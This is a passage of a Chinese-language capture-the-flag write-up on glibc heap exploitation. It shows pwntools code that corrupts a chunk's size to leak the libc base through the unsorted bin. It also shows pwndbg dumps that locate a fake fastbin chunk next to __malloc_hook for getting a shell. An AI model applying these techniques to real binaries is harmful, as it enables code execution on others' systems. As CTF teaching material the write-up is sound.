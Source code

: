 接下来要malloc回chunk4，但是malloc fastbin有检查，chunksize必须和fastbin_index匹配。

所以覆盖chunk4的size为fastbin大小

```python
allocate(0x10)
allocate(0x10)
payload = p64(0) * 3
payload += p64(0x91)
fill(3,payload)
allocate(0x80)
free(4)

libc_base = u64(dump(2)[:8].strip().ljust(8, "\x00"))-0x3c4b78
```

>   ​		unsortbin 有一个特性，就是如果 usortbin 只有一个 bin ，它的 fd 和 bk 指针会指向同一个地址(unsorted bin 链表的头部），这个地址为 main_arena + 0x58 ，而且 main_arena 又相对 libc 固定偏移 0x3c4b20 ，所以得到这个fd的值，然后减去0x58再减去main_arena相对于libc的固定偏移，即得到libc的基地址。所以我们需要把 chunk 改成大于 fastbin 的大小，这样 free 后能进入 unsortbin 让我们能够泄露 libc 基址。
>     我们的目标是覆盖 __malloc_hook 函数，这样我们调用 malloc 时就相当于调用我们写入的内容
>
>   ​		**malloc_hook 是一个 libc 上的函数指针，调用 malloc 时如果该指针不为空则执行它指向的函数，可以通过写** malloc_hook 来 getshell。

```
pwndbg> x/32xg (long long)(&main_arena)-0x40
0x7f12e66c5ae0 <_IO_wide_data_0+288>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5af0 <_IO_wide_data_0+304>:	0x00007f12e66c4260	0x0000000000000000
0x7f12e66c5b00 <__memalign_hook>:	0x00007f12e6386ea0	0x00007f12e6386a70
0x7f12e66c5b10 <__malloc_hook>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b20 <main_arena>:	0x0000000000000000	0x0000557ac06f3040
0x7f12e66c5b30 <main_arena+16>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b40 <main_arena+32>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b50 <main_arena+48>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b60 <main_arena+64>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b70 <main_arena+80>:	0x0000000000000000	0x0000557ac06f30e0
0x7f12e66c5b80 <main_arena+96>:	0x0000000000000000	0x00007f12e66c5b78
0x7f12e66c5b90 <main_arena+112>:	0x00007f12e66c5b78	0x00007f12e66c5b88
0x7f12e66c5ba0 <main_arena+128>:	0x00007f12e66c5b88	0x00007f12e66c5b98
0x7f12e66c5bb0 <main_arena+144>:	0x00007f12e66c5b98	0x00007f12e66c5ba8
0x7f12e66c5bc0 <main_arena+160>:	0x00007f12e66c5ba8	0x00007f12e66c5bb8
0x7f12e66c5bd0 <main_arena+176>:	0x00007f12e66c5bb8	0x00007f12e66c5bc8
```

同样的，这里我们也要绕过 malloc 的安全检查，chunksize 必须与 fastbin_index 相对应，初看 __malloc_hook 附近没有合适的 chunksize，这里需要巧妙的偏移一下。

```
pwndbg> x/32xg (long long)(&main_arena)-0x40+0xd
0x7f12e66c5aed <_IO_wide_data_0+301>:	0x12e66c4260000000	0x000000000000007f <=fake chunk
0x7f12e66c5afd:	0x12e6386ea0000000	0x12e6386a7000007f
0x7f12e66c5b0d <__realloc_hook+5>:	0x000000000000007f	0x0000000000000000
0x7f12e66c5b1d:	0x0000000000000000	0x7ac06f3040000000
0x7f12e66c5b2d <main_arena+13>:	0x0000000000000055	0x0000000000000000
0x7f12e66c5b3d <main_arena+29>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b4d <main_arena+45>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b5d <main_arena+61>:	0x0000000000000000	0x0000000000000000
0x7f12e66c5b6d <main_arena+77>:	0x0000000000000000	0x7ac06f30e0000000
0x7f12e66c5b7d <main_arena+93>:	0x0000000000000055	0x12e66c5b78000000
0x7f12e66c5b8d <main_arena+109>:	0x12e66c5b7800007f	0x12e66c5b8800007f
0x7f12e66c5b9d <main_arena+125>:	0x12e66c5b8800007f	0x12e66c5b9800007f
0x7f12e66c5bad <main_arena+141>:	0x12e66c5b9800007f	0x12e66c5ba800007f
0x7f12e66c5bbd <main_arena+157>:	0x12e66c5ba800007f	0x12e66c5bb800007f
0x7f12e66c5bcd <main_arena+173>:	0x12e66c5bb800007f	0x12e66c5bc800007f
0x7f12e66c5bdd <main_arena+189>:	0x12e66c5bc800007f	0x12e66c5bd800007f
```
